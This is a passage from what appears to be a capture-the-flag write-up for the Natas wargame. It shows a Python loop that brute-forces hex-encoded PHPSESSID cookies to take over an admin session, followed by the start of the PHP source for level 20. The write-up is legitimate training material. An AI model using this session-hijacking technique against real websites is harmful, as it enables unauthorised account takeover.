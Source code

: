 else:
  print('Target reachable. Starting character parsing...')

# Send request with incrementing session id in a loop until we get admin
num = 0
while(num < 640):
  num += 1
  session = str(num) + "-admin"
  session = session.encode('utf-8')
  print("Attempting Session ID: " + session.hex())
  headers = {'Cookie': 'PHPSESSID=' + session.hex()}
  r = requests.get(target, headers=headers)
  if bstr not in r.text:
    print(r.text)
    break
{% endhighlight %}

&nbsp;

### LEVEL 20

<img class="alignnone size-full wp-image-257" src="/assets/img/2019/09/2019-09-16_08h53_40.png" /> 

sourcecode:

{% highlight php %}
<?

function debug($msg) { 
  if(array_key_exists("debug", $_GET)) {
    print "DEBUG: $msg<br>";
  }
}

function print_credentials() {
  if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
  print "You are an admin. The credentials for the next level are:<br>";
  print "<pre>Username: natas21\n";
  print "Password: <censored></pre>";
  } else {
  print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
  }
}


/* we don't need this */
function myopen($path, $name) { 
  //debug("MYOPEN $path $name"); 
  return true; 
}

/* we don't need this */